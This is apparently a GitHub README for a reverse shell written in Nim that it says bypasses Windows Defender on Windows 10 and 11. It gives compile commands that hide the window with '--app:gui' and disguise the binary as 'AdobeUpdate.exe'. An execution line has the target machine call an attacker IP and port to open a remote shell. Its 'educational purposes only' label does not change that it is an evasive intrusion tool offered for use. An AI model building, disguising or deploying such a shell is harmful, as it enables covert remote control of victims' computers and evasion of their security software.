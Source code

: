 # Nim Reverse Shell

A simple reverse shell written in Nim that bypasses Windows Defender detection (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10 (10.0.19045) 
- Windows 11 (10.0.22621)


### Installation

```bash
sudo apt install mingw-w64
sudo apt install nim
```

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). Update IP and port

```bash
nim c -d:mingw --app:gui rev_shell.nim
nim c -d:mingw --app:gui --opt:speed -o:AdobeUpdate.exe rev-shell.nim
  -d: define compiler
  --app: generate gui app
  --opt: optimize for speed
  -o: output
```

### Execution
Transfer to target Windows system
```bash
AdobeUpdate.exe 10.10.5.25 1337              --defaults to static IP in code if no arguments given
```



